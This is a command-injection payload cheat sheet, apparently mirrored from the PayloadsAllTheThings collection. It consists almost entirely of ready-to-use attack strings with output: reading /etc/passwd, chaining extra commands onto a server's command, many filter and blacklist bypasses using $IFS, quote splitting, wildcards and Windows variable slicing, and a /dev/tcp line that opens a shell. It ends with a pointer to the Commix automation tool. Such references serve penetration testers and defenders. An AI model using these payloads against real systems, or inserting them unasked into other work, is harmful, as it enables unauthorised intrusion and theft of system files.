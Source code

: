 # Command injection



https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command Injection



# Exploits
## Basic commands

Execute the command and voila :p
````
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
````
## Chaining commands
````
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
````
## Inside a command
````
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)
````
# Filter Bypasses
## Bypass without space

Works on Linux only.
````
swissky@crashlab:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab▸ ~ ▸ $ sh</dev/tcp/127.0.0.1/4242
````

Commands execution without spaces, $ or { } - Linux (Bash only)
````
IFS=,;`cat<<<uname,-a`
````

Works on Windows only.
````
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
````

## Bypass with a line return

something%0Acat%20/etc/passwd

## Bypass Blacklisted words
Bypass with single quote
````
w'h'o'am'i
````

Bypass with double quote
````
w"h"o"am"i
````

Bypass with backslash and slash
````
w\ho\am\i
/\b\i\n/////s\h
````

Bypass with $@
````
who$@ami

echo $0
-> /usr/bin/zsh
echo whoami|$0
````

Bypass with variable expansion
````
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
````

Bypass with wildcards
````
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
````
Bypass with null
````
who``ami
````


# Commix

Automate command injection & reverse shell
https://github.com/commixproject/commix

